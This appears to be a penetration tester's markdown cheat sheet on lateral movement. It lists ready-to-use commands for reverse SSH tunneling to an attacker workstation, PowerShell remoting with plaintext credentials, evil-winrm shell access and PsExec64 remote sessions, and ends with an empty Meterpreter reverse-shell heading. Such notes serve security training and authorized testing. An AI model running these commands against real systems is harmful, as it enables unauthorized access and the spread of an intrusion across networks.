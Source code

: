 # 06 - Lateral Movement

Index
- [SSH Tunneling](#SSH-Tunneling)
- [Windows New-PSSession](#Windows-New-PSSession)
- [Evil-winrm](#Evil-winrm)
- [PsExec64](#PsExec64)

## SSH Tunneling
Fron INTERNAL target to ATTACKER workstation:
``` bash
ssh -N -R 9000 $USER@$KALI
ssh -N -R 9000 sheliak@192.168.1.1
```

## Windows New-PSSession
``` powershell
$username = 'username';
$password = 'password';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.1.1 -Credential $credential                                 ## create a session
Enter-PSSession 1                                                                               ## login in session 1
```

## Evil-winrm
Linux tool to access a remote system via WinRM and obtain a shell.
``` bash
evil-winrm -i 192.168.163.249 -u 'username' -p 'password'
```

## PsExec64
``` powershell
./PsExec64.exe -i \\TARGET -u $DIMAIN\$USER -p "$PASSWORD" powershell
./PsExec64.exe -i \\192.168.1.1 -u TEST\username -p "password" powershell
```

## Meterpreter reverse shell (1)
